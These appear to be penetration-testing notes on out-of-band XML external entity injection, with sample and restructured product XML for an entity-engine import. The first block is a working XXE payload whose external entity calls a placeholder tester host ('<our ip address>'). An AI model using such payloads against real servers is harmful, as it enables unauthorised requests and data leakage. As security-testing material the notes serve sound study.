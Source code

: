 ###### Out-of-Band Testing

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "http://<our ip address>/somefile">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

Sample product XML

```
<?xml version="1.0" encoding="UTF-8"?>
<entity-engine-xml>
	<Product 
		createdStamp="2021-06-04 08:15:49.363" 
		createdTxStamp="2021-06-04 08:15:48.983" 
		description="Giant Widget with Wheels" 
		internalName="Giant Widget variant explosion" 
		isVariant="N" 
		isVirtual="Y" 
		largeImageUrl="/images/products/WG-9943/large.png" 
		lastUpdatedStamp="2021-06-04 08:16:18.521" 
		lastUpdatedTxStamp="2021-06-04 08:16:18.258" 
		longDescription="This giant widget is mobile. It will seat one person safely. The wheels will never rust or break. Quite a unique item." 
		primaryProductCategoryId="202" 
		productId="WG-9943" 
		productName="Giant Widget with variant explosion" 
		productTypeId="FINISHED_GOOD" 
		productWeight="22.000000" 
		quantityIncluded="10.000000" 
		smallImageUrl="/images/products/WG-9943/small.png" 
		virtualVariantMethodEnum="VV_VARIANTTREE"
  />
...
</entity-engine-xml> 
```
Restructured XML:

```
<Product 
  createdStamp="2021-06-04 08:15:49.363" 
  createdTxStamp="2021-06-04 08:15:48.983" 
  description="Giant Widget with Wheels" 
  internalName="Giant Widget variant explosion" 
  isVariant="N" 
  isVirtual="Y" 
  largeImageUrl="/images/products/WG-9943/large.png" 
  lastUpdatedStamp="2021-06-04 08:16:18.521" 
  lastUpdatedTxStamp="2021-06-04 08:16:18.258" 
  primaryProductCategoryId="202" 
  productId="XXE-0001" 
  productName="Giant Widget with variant explosion" 
  productTypeId="FINISHED_GOOD" 
  productWeight="22.000000" 
  quantityIncluded="10.000000" 
  smallImageUrl="/images/products/WG-9943/small.png"   
  virtualVariantMethodEnum="VV_VARIANTTREE"
>
```